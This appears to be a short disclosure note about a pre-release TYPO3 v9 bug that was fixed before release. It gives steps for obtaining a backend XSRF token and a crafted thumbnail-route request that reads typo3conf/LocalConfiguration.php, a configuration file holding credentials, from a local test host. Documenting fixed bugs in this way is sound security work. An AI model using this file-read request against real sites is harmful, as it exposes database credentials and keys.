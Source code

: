 # Retrieving LocalConfiguration.php

This issue has been addressed already and the bug was discovered
before having been released, see https://forge.typo3.org/issues/85875
& https://review.typo3.org/#/c/57943/

Replace XSRF token for `&token=` with correct value - you need to
have a valid backend user session.

In order to retrieve XSRF token, open `Web > Page` module, select
a page that contains text with image elements. Open the shown thumbnail
image in a new tab and reuse its `&token=` value.

```
http://typo3v9-hack.ddev.local/typo3/index.php
?route=%2Fthumbnails
&token=36040ecd8c603c15d02e00ab4cb3426f4be8827a
&fileIdentifier=typo3conf/LocalConfiguration.php
&processingInstructions%5Bwidth%5D=64
&processingInstructions%5Bheight%5D=64c
&processingInstructions%5Bcrop%5D=
```

## Inspections

`\TYPO3\CMS\Backend\Controller\File\ThumbnailController`

## Security Vulnerability

Never was an issue for any released versions because it has been
discovered prior to being released.